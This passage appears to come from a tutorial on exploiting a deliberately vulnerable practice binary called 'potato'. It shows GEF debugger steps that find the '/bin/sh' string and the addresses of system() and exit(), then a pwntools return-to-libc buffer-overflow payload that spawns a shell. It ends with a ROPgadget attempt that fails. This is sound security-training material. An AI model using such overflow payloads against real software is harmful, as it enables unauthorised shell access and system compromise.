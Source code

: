 ```gdb
gef➤  x/10bx 0x804f7d0
0x804f7d0:      0x2f    0x62    0x69    0x6e    0x2f    0x62    0x61    0x73
0x804f7d8:      0x68    0x00
```

Next, we need to find a glibc function like `system()`, or `execve()`, which we can jump to.:
```gdb
gef➤  p system
$1 = {<text variable, no debug info>} 0x2a3494c0 <system>
```

The last address we need is the address of the `exit()` function so the process exits gracefully, even
after the stack was smashed:
```gdb
gef➤  p exit
$2 = {<text variable, no debug info>} 0x2a335ac0 <exit>
```

This information can now be used tp craft the return to libc attack. Inject the address of `system()`,
followed by the address of `exit()` and the address of the `bin/sh` string:

```python
p.sendline(b"changename")
payload=b"\x41"*58+ b"\x38\xce\xff\xff" + p32(0x2a3494c0) + p32(0x2a335ac0) + p32(0x804f7d0)
p.sendline(payload)
p.interactive()
```

Running this script will open up a shell in the terminal that runs the `potato` app.

## create a custom shellcode or run a ROP attack

For the generation of a ROP/Return Oriented Programming attack, the `ROPgadget` or `Ropper` Python
libraries can be used. This example uses `ROPgadget`. It must be installed in the Python virtual
environment, then it can be used to scan the binary for gadgets and for creating a ROP chain. 
A gadget is a sequence of assembly statements which achieve a certain effect, they may e.g. write a certain 
value into a certain processor register. That sequence must be followed by a ret statement. 
A sequence of these gadgets that opens, for instance a shell, is called a ROP chain.

```bash
. ./venv/bin/activate
pip install ROPgadget
ROPgadget --binary potato --ropchain
```

However, `ROPGadget` cannot generate a ROP chain due to missing gadgets in the `potato` binary:

```
...
Unique gadgets found: 629

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [-] Can't find the 'mov dword ptr [r32], r32' gadget
```
